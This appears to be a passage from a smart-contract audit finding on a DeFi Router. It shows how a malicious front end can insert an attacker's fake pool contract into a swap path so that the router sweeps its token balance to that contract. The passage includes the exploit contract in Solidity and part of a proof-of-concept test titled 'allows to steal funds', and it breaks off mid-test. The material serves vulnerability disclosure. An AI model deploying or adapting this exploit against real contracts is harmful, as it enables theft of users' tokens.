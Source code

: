     Moreover, the path argument is encoded as [a byte array](https://github.com/code-423n4/2022-12-Stealth-Project/blob/fc8589d7d8c1d8488fd97ccc46e1ff11c8426ac2/router-v1/contracts/interfaces/IRouter.sol#L40), which makes it hard to read and verify in a wallet.

2. The attack is performed by the official Router contract: users may have it added to the list of known contracts (a feature supported by MetaMask) and execute a transaction from a malicious front-end application thinking that, since the official Router contract is called, they're safe.

An example of a malicious pool contract:

```solidity
// router-v1/contracts/audit/AuditSwapExploit.sol
// SPDX-License-Identifier: unlicensed
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "../interfaces/IRouter.sol";

contract AuditSwapExploit {
  address tokenAddress;

  constructor(address tokenAddress_) {
    tokenAddress = tokenAddress_;
  }

  function swap(address /*recipient*/, uint256 amount, bool /*tokenAIn*/, bool /*exactOutput*/, uint256 /*sqrtPriceLimit*/, bytes calldata /*data*/) external returns (uint256 amountIn, uint256 amountOut) {
    IRouter(msg.sender).sweepToken(IERC20(tokenAddress), 0, address(this));

    amountIn = amount;
    amountOut = type(uint256).max;
  }
}
```

A coded proof of concept that demonstrates an attack using the above contract:

```js
// router-v1/test/Router.ts
//   describe("#swap exact in", () => {
it("allows to steal funds [AUDIT]", async () => {
  let poolWETHB: string = await getEthBPool(0.05, 2);

  // Deploying a exploit.
  const factory = await ethers.getContractFactory("AuditSwapExploit", {});
  const exploit = await factory.deploy(tokenB.address);
  await exploit.deployed();

  const preExploitBalance = await balances(exploit.address);
  const preOwnerBalance = await balances(await owner.getAddress());

  // The attacker injects their exploit in the path.
  let path = encodePath([
    weth9.address,
    poolWETHB,
    tokenB.address,
    exploit.address,
    tokenA.address,
  ]);
  await router.exactInput({
    path: path,
    recipient: await owner.getAddress(),
    deadline: maxDeadline,
    amountIn: floatToFixed(1),
    amountOutMinimum: 0
```
